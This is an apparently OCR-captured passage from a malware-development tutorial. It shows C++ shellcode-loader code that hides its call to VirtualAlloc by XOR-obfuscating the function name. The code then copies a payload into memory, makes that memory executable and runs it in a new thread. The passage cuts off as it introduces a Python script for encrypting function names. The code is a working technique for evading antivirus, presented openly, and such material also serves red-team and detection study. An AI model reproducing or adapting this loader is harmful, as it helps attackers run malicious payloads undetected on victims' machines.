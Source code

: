 ```cpp
);

void XOR(char * data, size_t data_len, char * key, 
size_t key_len) {
  int j;
  j = 0;
  for (int i = 0; i < data_len; i++) {
    if (j == key_len - 1) j = 0;
    data[i] = data[i] ^ key[j];
    j++;
  }
}

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  XOR((char *) cVirtualAlloc, cVirtualAllocLen, 
  mySecretKey, sizeof(mySecretKey));

  // Allocate a memory buffer for payload
  pVirtualAlloc = GetProcAddress(
  GetModuleHandle("kernel32.dll"), cVirtualAlloc);

  my_payload_mem = pVirtualAlloc(0, my_payload_len, 
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, 
  my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, 
  PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, 
    (LPTHREAD_START_ROUTINE) my_payload_mem, 
    0, 0, 0);
	WaitForSingleObject(th, -1);
  }
  return 0;
}

```

And use python script to XOR encrypt our function name and replace:    
